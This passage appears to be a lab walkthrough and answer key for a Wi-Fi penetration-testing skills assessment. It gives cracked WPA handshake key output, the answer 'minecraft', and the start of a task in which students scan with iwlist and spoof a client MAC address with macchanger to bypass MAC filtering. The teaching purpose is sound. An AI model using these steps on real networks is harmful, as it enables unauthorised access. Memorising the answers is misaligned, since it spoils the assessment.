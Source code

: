 ```

      Master Key     : A9 D7 2A A9 DB D1 32 D6 68 87 7E 94 CD 71 89 1A 
                       EC DA 87 BF 9F E5 FE 4A D4 10 00 70 99 EB A9 B8 

      Transient Key  : CF 3E 88 7B D4 DF 06 93 1B B9 3D 0E C1 87 9D 26 
                       3C E4 00 40 7D 6F 35 FD A8 6B 92 5E 90 10 BF 47 
                       F7 22 4A C2 BF FD BD 48 56 5E 1B 4E 78 C7 66 72 
                       EA B7 B1 02 A6 FD 77 00 2D 27 E6 B9 CB 3E 34 B4 

      EAPOL HMAC     : 33 E4 19 0F 6A 69 10 2B E9 2A 03 6B 6D 6C 3C 24
```

Answer: `minecraft`

# Wi-Fi Penetration Testing Basics - Skills Assessment

## Question 3

### "Connect to the WiFi network and submit the flag found at IP 192.168.1.1 or 192.168.2.1."

Students will use `iwlist` to scan the network using the `wlan0`, revealing another network `GAMMER-5G`:

```shell
iwlist wlan0 scan | grep 'Cell\|Quality\|ESSID\|IEEE'
```
```
wifi@WiFiIntro:~$ iwlist wlan0 scan | grep 'Cell\|Quality\|ESSID\|IEEE'

<SNIP>
          Cell 03 - Address: D8:D6:3D:EB:29:D5
                    Quality=70/70  Signal level=-30 dBm  
                    ESSID:"GAMMER-5G"
                    IE: IEEE 802.11i/WPA2 Version 1
```

Subsequently, students will perform MAC bypassing using the MAC address from the client connected to the HTB network:

```shell
sudo ifconfig wlan0 down
sudo macchanger wlan0 -m 02:00:00:00:02:00
sudo ifconfig wlan0 up
```
```
wifi@WiFiIntro:~$ sudo ifconfig wlan0 down
wifi@WiFiIntro:~$ sudo macchanger wlan0 -m 02:00:00:00:02:00

Current MAC:   02:00:00:00:05:00 (unknown)
Permanent MAC: 02:00:00:00:05:00 (unknown)
New MAC:       02:00:00:00:02:00 (unknown)

wifi@WiFiIntro:~$ sudo ifconfig wlan0 up
```
